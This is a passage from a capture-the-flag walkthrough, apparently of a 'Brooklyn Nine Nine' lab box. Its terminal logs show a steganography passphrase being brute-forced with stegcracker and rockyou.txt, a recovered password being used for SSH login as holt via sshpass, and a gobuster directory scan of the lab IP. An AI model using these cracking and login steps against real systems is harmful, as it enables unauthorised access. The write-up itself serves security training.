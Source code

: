 ```bash
clobee@kali:~/tmp/brooklyn99$ steghide info brooklyn99.jpg 
"brooklyn99.jpg":
  format: jpeg
  capacity: 3.5 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
steghide: can not uncompress data. compressed data is corrupted.
clobee@kali:~/tmp/brooklyn99$ stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt 
StegCracker 2.0.9 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2021 - Luke Paris (Paradoxis)

Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: admin
Tried 20523 passwords
Your file has been written to: brooklyn99.jpg.out
admin
```

The analyse of the image revealed a password for the user `holt`

```bash
clobee@kali:~/tmp/brooklyn99$ batcat brooklyn99.jpg.out 
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: brooklyn99.jpg.out
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ Holts Password:
   2   │ fluffydog12@ninenine
   3   │ 
   4   │ Enjoy!!
───────┴────────────────────────────
```

### SSH access: user holt

```bash
clobee@kali:~/tmp/brooklyn99$ sshpass -p 'fluffydog12@ninenine' ssh holt@10.10.65.228
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
```

#### Directory scan

We conducted a quick directory scan of the system looking for common directories and files

```bash
clobee@kali:~/tmp/brooklyn99$ gobuster dir -u http://10.10.65.228 -w /usr/share/wordlists/dirb/common.txt 

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.65.228
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/02 22:32:10 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
```